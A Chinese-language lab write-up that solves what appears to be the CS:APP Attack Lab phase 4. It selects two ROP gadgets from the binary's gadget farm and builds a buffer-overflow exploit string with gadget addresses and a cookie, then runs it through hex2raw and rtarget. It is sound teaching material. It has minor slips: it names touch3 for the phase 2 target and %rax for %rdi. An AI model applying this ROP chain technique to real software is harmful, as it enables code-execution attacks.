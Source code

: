```asm
0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq

0000000000401ab2 <end_farm>:
  401ab2:	b8 01 00 00 00       	mov    $0x1,%eax
  401ab7:	c3                   	retq
  401ab8:	90                   	nop
  401ab9:	90                   	nop
  401aba:	90                   	nop
  401abb:	90                   	nop
  401abc:	90                   	nop
  401abd:	90                   	nop
  401abe:	90                   	nop
  401abf:	90                   	nop
```
现在要利用ROP来实现phase_2中的功能。那么我们就需要去把cookie放到%rdi中，然后覆盖掉对应的位置压入touch3的地址然后ret.
实验指导书中给出了Some Advice:
>* All the gadgets you need can be found in the region of the code for rtarget demarcated by the functions start_farm and mid_farm.
>* You can do this attack with just two gadgets.
>* When a gadget uses a popq instruction, it will pop data from the stack. As a result, your exploit string will contain a combination of gadget addresses and data.

按照他给的建议，我们可以猜测这个实验可以这样进行。首先将一些需要用到的代码片段的addresses写在我们的string里面，然后通过溢出写到栈上。而我们知道pop会使得栈指针的地址增大，那么我们可以通过不断的pop和ret来在代码片段中跳转，最终实现我们需要的功能。
根据提示我们在start_farm到mid_farm中去寻找线索,我们首先注意到这个片段
```asm
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq
```
注意到58 90 c3这一段，其中90代表nop也就是表示什么都不做继续道下一行，而c3是ret,58是popq %rax,也就是说我们可以通过这一个片段把cookie写到rax中，那么我们还需要一个mov %rax,%rdi来把cookie写到%rax中,继续寻找发现了
```asm
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq
```
注意到48 89 c7是表示movq %rax,%rdi而紧跟着c3表示ret，恰好符合我们的要求，这样cookie我们就搞定了，只需要写好地址，算好偏移量，不断的通过pop来调整就能实现我们想要的结果。于是我们去查看getbuf
```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 ac 03 00 00       	callq  401b60 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
显然为我们的字符串分配了0x28大小的空间而我们知道栈的内存模型中栈顶是低地址，栈底是高地址。通过sub之后add会让栈指针回到原来的地址，然后这个位置指向的应该是存储的返回地址，而每一次pop都会让栈指针地址增大，则我们应该往上覆盖,也就是我们的需要跳转的地址应该写在后面。很轻易的我们就写出了这样的一串字符串
```txt
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00 a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00 ff ff ff ff ff ff ff ff
```
调用测试，pass!
```common
➜  target1 ./hex2raw <phase_4.txt >phase_4-raw.txt
➜  target1 ./rtarget -q <phase_4-raw.txt
```